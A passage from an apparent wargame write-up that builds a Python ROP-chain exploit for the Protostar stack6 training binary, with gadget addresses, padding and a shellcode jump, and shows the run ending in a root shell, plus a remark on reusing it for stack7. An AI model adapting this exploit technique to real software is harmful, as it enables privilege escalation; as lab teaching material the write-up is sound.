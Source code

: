 
Now I spin up vim and go to work on a python script:

<pre><code class="python">
from struct import pack
CALLEAX = pack("&lt;I", 0x804847f) #call eax ; leave ;;
XEAX = pack("&lt;I", 0x804844b) #xchg edi eax ; add al 0x8 ; add [ebx+0x5d5b04c4] eax ;;
POPEDI = pack("&lt;I", 0x8048577) #pop edi ; pop ebp ;;
POPEBX = pack("&lt;I", 0x8048452) #pop ebx ; pop ebp ;;
SHLCD = pack("&lt;I", 0xbfffffa7+50-8) #shellcode address +50 so we land in the NOPS and -8 because we added 8 before with the xchg gadget, doesn't matter that much but it's good habit to get into
PAD = "BBBB"


buf = "A" * 80 #overflow the buffer to just before the return address
buf += POPEDI #POP the address of the shellcode into EDI
buf += SHLCD #This is after because now it will be first on the stack when POPEDI is called
buf += PAD #fill in ebp with padding
buf += POPEBX #POP the safe address into ebx so it doesn't crash
buf += pack("&lt;I", 0x62a4f184)
buf += PAD #plus padding for ebp
buf += XEAX #run the xchg to put the address of our shellcode into eax
buf += CALLEAX #call eax

print(buf) #profit
</code></pre>

Following this we output to a file and run the exploit:

<pre><code>
~/ $ python 2chainz.py > chain
~/ $ /opt/protostar/stack6 < chain
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBB��bBBBB���
# id
uid=0(root) gid=0(root) groups=0(root),1001(user)
</code></pre>

Sweet victory. 

From here solving stack7 is as easy as finding the new addresses of these gadgets with ROPeMe. The program is nearly identical to stack6 except for the fact that the return address is more restricted (can't start with 0xb). This was never an issue in the first place, though because we set the return address to 0x8048577 which is in the .text section anyway.
